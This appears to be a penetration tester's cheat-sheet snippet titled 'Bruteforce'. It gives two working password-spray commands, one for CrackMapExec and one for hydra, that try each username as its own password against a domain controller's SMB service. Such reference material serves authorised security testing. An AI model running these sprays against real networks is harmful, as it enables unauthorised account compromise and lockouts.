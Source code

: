 # Bruteforce

## Password Spray (user=password) - cme

```
cme smb <domain-controller> -u <users-list> -p <users-list> --no-bruteforce --continue-on-success
```

= domain-controller: $DOMAIN_CONTROLLER
= users-list: ./targets/domain/users.txt

## Password Spray (user=password) - hydra

```
hydra -s 445 -L <users-list> -e s -V -t1 <domain-controller> smb
```

= domain-controller: $DOMAIN_CONTROLLER
= users-list: ./targets/domain/users.txt
